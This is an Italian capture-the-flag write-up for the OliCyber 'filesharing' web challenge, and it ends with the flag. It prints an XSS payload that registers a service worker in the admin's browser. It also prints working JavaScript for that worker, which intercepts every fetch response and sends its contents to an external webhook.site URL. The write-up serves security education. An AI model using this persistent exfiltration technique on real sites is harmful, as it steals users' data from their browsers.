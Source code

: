 > Our new startup developed a new web app with amazing features you've never heard of.
> Website: http://filesharing.challs.olicyber.it

L'XSS in /play può essere utilizzato per eseguire uno script da un file condiviso con l'amministratore (consentito dal CSP), viene usato per registrare un service worker nel browser dell'admin; 

```html
<script>
navigator.serviceWorker.register('https://filesharing.m0lec.one/upload/e81c51506d9b4e4ca5d609ed0f6e4fe3');
window.setTimeout(()=>document.location = 'https://filesharing.m0lec.one/upload/ffffffffffffffffffffffffffffffff',500);
</script>
```
Scriviamo un service worker in JS per rubare i dati all'admin. Intercettiamo tutte le richieste fetch del browser, per ogni richiesta, salviamo la risposta nella cache e la restituiamo normalmente; cloniamo le risposte e ne estraiamo il testo; inviamo il contenuto della risposta (es. flag) a un webhook esterno (webhook.site) permettendo di ricevere i dati rubati.
Dunque, se l'admin visita la pagina con questo service worker attivo, ogni volta che scarica un file (es. flag) suddetto contenuto viene esfiltrato dall'attaccante (noi).

Un esempio di service worker per avere la flag è:

```javascript
// Per usarlo come service worker, dovresti collegare fetchHandler all'evento fetch:
// self.onfetch = fetchHandler;

function fetchHandler(e) {
  e.respondWith(
    caches.match(e.request).then((r) => {
      return r || fetch(e.request).then((response) => {
        console.log(response);
        console.log(new Map(response.headers));
        const newHeaders = new Headers();
        const anotherResponse = new Response(response.body, {
          status: response.status,
          statusText: response.statusText,
          headers: newHeaders
        });
        let clone = anotherResponse.clone();
        clone.text().then((x)=>fetch('https://webhook.site/9cf73d0f-160a-4f23-a986-70f1bc21b864/'+x).then((r)=>console.log(r)));
        console.log(new Map(anotherResponse.headers));
        return caches.open('static').then(
          (cache) => {
            cache.put(e.request, anotherResponse.clone());
            return anotherResponse;
          }
        );
      });
    })
  );
}
```

Ma ci sono altri modi.

**ptm{H0w_d0_U_r3ad_4_d0wnlo4d3d_fil3?}**
